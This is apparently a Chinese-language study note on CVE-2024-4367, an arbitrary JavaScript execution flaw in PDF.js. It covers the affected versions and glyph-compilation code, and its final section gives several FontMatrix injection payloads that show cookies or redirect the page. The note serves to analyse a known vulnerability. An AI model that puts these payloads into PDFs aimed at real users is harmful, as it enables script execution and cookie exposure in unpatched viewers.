 ```yaml
---
date: 2024-05-29
---
```


# CVE-2024-4367-PDF.js中任意JavaScript执行

> [(1) X 上的 Thomas Rinsma：“Just released the write-up for CVE-2024-4367, a bug I found recently in PDF.js (and hence in Firefox), resulting in arbitrary JavaScript execution when opening a malicious PDF. https://t.co/sex6fR0xHS” / X](https://x.com/thomasrinsma/status/1792503111317119185)
>
> [CVE-2024-4367 - Arbitrary JavaScript execution in PDF.js — Codean Labs](https://codeanlabs.com/blog/research/cve-2024-4367-arbitrary-js-execution-in-pdf-js/)
>
> [Arbitrary JavaScript execution upon opening a malicious PDF · Advisory · mozilla/pdf.js · GitHub](https://github.com/mozilla/pdf.js/security/advisories/GHSA-wgrm-67xf-hhpq)
>
> [GitHub - LOURC0D3/CVE-2024-4367-PoC: CVE-2024-4367 & CVE-2024-34342 Proof of Concept](https://github.com/LOURC0D3/CVE-2024-4367-PoC)
>
> [GitHub - s4vvysec/CVE-2024-4367-POC: CVE-2024-4367 arbitrary js execution in pdf js](https://github.com/s4vvysec/CVE-2024-4367-POC)
>
> [知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具 (zsxq.com)](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222)

 PDF.js 是由 Mozilla 维护的基于 JavaScript 的 PDF viewer

CVE-2024-4367允许攻击者在打开恶意 PDF 文件后立即执行任意 JavaScript 代码

---

## 影响范围

所有 Firefox 用户 (<126)，因为 Firefox 使用 PDF.js 来显示 PDF 文件

也会严重影响（间接）许多使用 PDF.js 进行预览功能的基于 Web 和 Electron 的应用程序

---

> 实测可复现漏洞版本:
>
> ![image-20240522104457591](http://cdn.ayusummer233.top/DailyNotes/202405241346924.png)
>
> ![image-20240522104518122](http://cdn.ayusummer233.top/DailyNotes/202405241346242.png)
>
> 下载 firefox 旧版本:
>
> - [安装 Firefox 以前的版本 | Firefox 帮助 (mozilla.org)](https://support.mozilla.org/zh-CN/kb/安装 Firefox 以前的版本)
> - [Directory Listing: /pub/firefox/releases/ (mozilla.org)](https://ftp.mozilla.org/pub/firefox/releases/)

---

## 介绍

PDF.js 有两种常见的用例

- 它是 Firefox 内置的 PDF 查看器

- 它被捆绑到一个名为 `pdfjs-dist` 的 Node 模块中，根据 NPM，每周下载量约为 270 万次

  包括但不限于 Git 托管平台到笔记应用程序都用它来提供 PDF 预览功能

  > [pdfjs-dist - npm (npmjs.com)](https://www.npmjs.com/package/pdfjs-dist)
  >
  > ![image-20240521170324479](http://cdn.ayusummer233.top/DailyNotes/202405241346682.png)

---

## Glyph rendering(字形渲染)

这个漏洞和 PDF 的 JavaScript 脚本功能本身无关. 这是在对字体渲染代码的特定部分的疏忽造成的漏洞

PDF 中的字体可以有多种不同的格式，其中一些格式比其他格式更晦涩。

对于 TrueType 等现代格式，PDF.js 主要遵循浏览器自己的字体渲染器。

在其他情况下，它必须手动将字形（即字符）描述转换为页面上的曲线。为了优化性能，它为每个字形预编译了路径生成器函数。

如果支持的话，可以通过创建一个 JavaScript `Function` 对象来完成，该对象的主体 ( `jsBuf` ) 包含组成路径的指令

```js
// If we can, compile cmds into JS for MAXIMUM SPEED...
if (this.isEvalSupported && FeatureTest.isEvalSupported) {
  const jsBuf = [];
  for (const current of cmds) {
    const args = current.args !== undefined ? current.args.join(",") : "";
    jsBuf.push("c.", current.cmd, "(", args, ");\n");
  }
  // eslint-disable-next-line no-new-func
  console.log(jsBuf.join(""));
  return (this.compiledGlyphs[character] = new Function(
    "c",
    "size",
    jsBuf.join("")
  ));
}
```

从攻击者的角度来看，如果我们能够以某种方式控制这些 `cmds` 进入 `Function` 主体并插入我们自己的代码，那么一旦这样的字形出现，它就会被执行

---

```js
/FontMatrix [1 2 3 4 5 (1\); alert\('origin: '+window.origin+'\\npdf url: '+window.PDFViewerApplication.url)]

/FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  
<<
  /BaseFont /SNCSTG+CMBX12
  /FontDescriptor 7 0 R
  /Subtype /Type1
  /FontMatrix [1 2 3 4 5 (0\); alert\('foobar')]
  /Type /Font
>>
      
/FontMatrix [1 2 3 4 5 (0\); location.href=\('https://www.baidu.com')]

/FontMatrix [1 2 3 4 5 (1\); alert\('document.domain: '+window.document.domain+'\\nlocation: '+window.location+'\\ncookie: '+window.document.cookie)]
```

[知识星球 | CVE-2024-4367](https://wx.zsxq.com/dweb2/index/topic_detail/1522484211581222) 中目前似乎还没看到什么更实际的利用方式

---


